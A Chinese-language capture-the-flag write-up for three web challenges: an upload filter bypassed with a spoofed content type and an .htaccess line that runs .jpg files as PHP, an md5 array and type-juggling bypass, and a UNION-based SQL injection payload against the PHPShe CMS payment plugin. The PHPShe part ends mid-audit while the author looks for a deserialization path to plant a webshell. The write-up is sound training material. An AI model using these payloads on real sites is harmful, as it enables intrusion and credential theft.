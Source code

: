 ## `[MRCTF2020]`你传你🐎呢 #文件上传
文件上传发现被过滤

![](attachments/Pasted%20image%2020230415111247.png)

修改content-type 为image/jpeg和后缀名后上传成功

![](attachments/Pasted%20image%2020230415111607.png)

/var/www/html/upload/ebe5b85736548ba0a494c533dec573bc/shell.jpg

这里写.htaccess文件更改解析

```
AddType application/x-httpd-php .jpg
```

执行命令的时候发现没反应，phpinfo后发现是ban了system

![](attachments/Pasted%20image%2020230415112615.png)

直接蚁剑，蚁剑坏了，利用无参rce的技巧来读

print_r(scandir("."))

![](attachments/Pasted%20image%2020230415113607.png)


![](attachments/Pasted%20image%2020230415113703.png)

## `[MRCTF2020]`Ez_bypass

访问主页面
```php
I put something in F12 for you include 'flag.php'; 
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}'; 
if(isset($_GET['gg'])&&isset($_GET['id'])) { 
	$id=$_GET['id']; $gg=$_GET['gg']; 
	if (md5($id) === md5($gg) && $id !== $gg) { 
		echo 'You got the first step'; 
		if(isset($_POST['passwd'])) { 
			$passwd=$_POST['passwd']; 
				if (!is_numeric($passwd)) { 
					if($passwd==1234567) { 
						echo 'Good Job!'; 
						highlight_file('flag.php'); 
						die('By Retr_0'); } 
					else { 
						echo "can you think twice??"; 
						} 
					} 
				else{ 
					echo 'You can not get it !'; 
					} 
				}
			else{ 
				die('only one way to get the flag'); 
				} 
			} 
		else { 
			echo "You are not a real hacker!"; 
			} 
		} 
	else{ 
		die('Please input first'); 
		} 
	}
Please input first
```

其实就是md5的无法处理数组和比较类型问题

![](attachments/Pasted%20image%2020230415114824.png)

## `[RoarCTF 2019]`PHPShe

是phpshe的cms
对应插件存在sql注入漏洞
[代码审计之phpshev1.7前台注入和zzzphpv1.74后台sql注入 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/254237.html)

payload：
```
/include/plugin/payment/alipay/pay.php?id=pay`%20where%201=1%20union%20select%201,2,((select`3`from(select%201,2,3,4,5,6%20union%20select%20*%20from%20admin)a%20limit%201,1)),4,5,6,7,8,9,10,11,12%23_
```

注出来的value是md5值需要解密

![](attachments/Pasted%20image%2020230415121448.png)

![](attachments/Pasted%20image%2020230415121345.png)

admin/atlman777   登录后台

搜索后并没有phpshe的后台漏洞，再在后台最可能的是文件上传来rce，按理来说应该是出题人对源码做了修改，自己憋了个洞出来，但是官方源码没有以前的版本，只有最新的。。。，这样就只能自己审计了

![](attachments/Pasted%20image%2020230415122154.png)

seay扫了一下

![](attachments/Pasted%20image%2020230415123155.png)

pclzip.class.php的问题是最多的，就从这里开始慢慢审计

粗略看的时候发现有个__destruct

![](attachments/Pasted%20image%2020230415124136.png)

这里构造反序列化的话save_path是可控的，从功能上讲可以通过控制save_path来控制解压位置，现在的想法是上传压缩的webshell然后通过控制解压路径解压到能够访问的路径
现在需要找一个能够触发反序列化的点

在找unserliaze的时候发现大多都写死了序列化内容，没有写死的不是很复杂就是变量不可控，现在来考虑能够触发phar的函数
